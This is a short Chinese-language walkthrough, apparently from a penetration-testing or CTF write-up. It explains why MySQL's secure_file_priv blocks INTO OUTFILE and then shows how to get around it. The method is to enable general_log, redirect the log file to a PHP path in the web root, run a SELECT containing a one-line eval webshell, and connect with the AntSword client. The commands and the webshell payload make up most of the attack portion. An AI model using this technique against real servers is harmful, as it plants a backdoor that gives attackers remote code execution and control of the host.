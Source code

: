报错了，这里不能使用INTO OUTFILE，因为file_priv是null，MYSQL新特性secure_file_priv对读写文件的影响，此开关默认为NULL，即不允许导入导出，而且在这里我们是没有权限修改这个参数的

![image-20220317165023319](images/3.png)

secure-file-priv的值有三种情况

```
secure_file_prive=null       限制mysqld不允许导入导出
secure_file_priv=/path/      限制mysqld的导入导出只能发生在默认的/path/目录下
secure_file_priv=''        不对mysqld的导入导出做限制
```

看师傅的文章学到了利用日志来写shell

首先开启日志记录，这是有权限执行的

```
set global general_log='on';
```

把日志文件导出到指定目录

```
set global general_log_file='C:/phpstudy/PHPTutorial/WWW/shell.php';
```

这里用SQL语句执行一个一句话木马，日志会记录

```
select '<?php @eval($_POST[1]); ?>';
```

最后关闭日志

```
set global general_log=off;
```

然后用蚁剑连接即可
